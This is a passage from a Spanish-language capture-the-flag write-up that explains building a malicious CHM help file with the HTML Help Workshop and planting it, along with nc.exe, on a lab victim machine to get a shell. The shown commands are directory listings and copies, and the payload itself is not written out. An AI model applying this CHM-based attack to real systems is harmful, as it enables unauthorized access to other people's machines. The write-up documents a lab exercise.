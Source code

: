 Podemos utilizar WaybackMachine para [descargar el instalador](http://web.archive.org/web/20160201063255/http://download.microsoft.com/download/0/A/9/0A939EF6-E31C-430F-A3DF-DFAE7960D564/htmlhelp.exe)

Una vez instalado podemos crear nuestro CHM malicioso...
![Write-up Image](images/Screenshot_23.png)

Nos copiamos el binario de `nc.exe` y el archivo `doc.chm` en la máquina víctima 
```shell
C:\Users\Chris\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of C:\Users\Chris\Desktop

08/23/2024  08:03 PM    <DIR>          .
08/23/2024  08:03 PM    <DIR>          ..
08/23/2024  08:01 PM            13,448 d573913120ef8d81e901bd7b3ae2701760008cb2.key
08/23/2024  08:01 PM            13,448 doc.chm
08/23/2024  08:03 PM            28,160 nc.exe
08/23/2024  06:27 PM                34 user.txt
               4 File(s)         55,090 bytes
               2 Dir(s)   2,414,661,632 bytes free

```

Copiamos el `nc.exe` a la ruta que hemos especificado en el payload al generar el archivo CHM
```shell
C:\Users\Chris\Desktop>copy nc.exe C:\Windows\System32\spool\drivers\color\nc.exe
copy nc.exe C:\Windows\System32\spool\drivers\color\nc.exe
        1 file(s) copied.
```

Y copiamos el archivo CHM malicioso al directorio donde estaba la nota...
```shell
C:\Users\Chris\Desktop>copy doc.chm C:\Docs\doc.chm
copy doc.chm C:\Docs\doc.chm
        1 file(s) copied.
```
